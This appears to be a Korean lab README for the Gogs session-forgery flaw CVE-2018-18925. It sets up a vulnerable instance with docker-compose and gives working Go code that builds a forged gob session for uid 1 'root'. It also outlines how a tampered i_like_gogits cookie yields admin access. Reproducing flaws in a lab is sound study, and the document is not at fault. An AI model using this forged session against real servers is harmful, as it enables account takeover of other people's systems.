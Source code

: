 # Gogs 원격코드실행취약점 (CVE-2018-18925)


Gogs 0.11.66 및 이전버전과 Gitea 및 이전버전에 대해 취약점이 발견되었습니다. 
Sessionid 에 대한 검증이 없어, Sessionid 를 위조를 통해 임의의 계정에 로그인이 가능합니다.
임의의 파일을 읽을 수 있고 또 파일의 권한을 가지고 있어 악의적인 행위가 가능합니다.

참고：

- https://github.com/gogs/gogs/issues/5469
- https://github.com/j4k0m/CVE-2018-18925


## 환경 설정

docker-compose 를 통해 해당 취약 버전의 gogs 를 실행합니다.

```
docker-compose up -d
```

정상적으로 작동이 되었다면 http://{ip-address}:3000 으로 페이지에 접속할 수 있습니다.

최초 설정을 할때 SQLite3 으로 설정후 docker-compose restart 을 통해 재시작합니다. 재시작을 하지 않을경우 세션이 메모리에 저장이 되기에 문제가 발생합니다.

## 취약점

Gog속에 넣을 go랭 Session 파일 생성：

```go
package main

import (
    "bytes"
    "encoding/gob"
    "encoding/hex"
    "fmt"
    "io/ioutil"
    "os"
)

func EncodeGob(obj map[interface{}]interface{}) ([]byte, error) {
    for _, v := range obj {
        gob.Register(v)
    }
    buf := bytes.NewBuffer(nil)
    err := gob.NewEncoder(buf).Encode(obj)
    return buf.Bytes(), err
}

func main() {
    var uid int64 = 1
    obj := map[interface{}]interface{}{"_old_uid": "1", "uid": uid, "uname": "root"}
    data, err := EncodeGob(obj)
    if err != nil {
        fmt.Println(err)
    }
    err = ioutil.WriteFile("data", data, os.O_CREATE|os.O_WRONLY)
    if err != nil {
        fmt.Println(err)
    }
    edata := hex.EncodeToString(data)
    fmt.Println(edata)
}
```
임의로 uid = 1 uname 을 root 로 지정.

기본적으로 gogs 는  /data/gogs/data/tmp/local-repo/[REPO_ID]/[FILENAME] 안에 파일을 저장을 합니다.
이를 이용해 i_like_gogits cookie 값을 변조를 통해 관리자 권한을 탈취가 가능합니다.

작동방식은 모종의 파일을 업로드 , 그것을 통한 DB에서의 파일위치 확인 , REPO_ID 변조를 통한 아이디 변경, 이후 권한 탈취 로 진행되는것으로 보입니다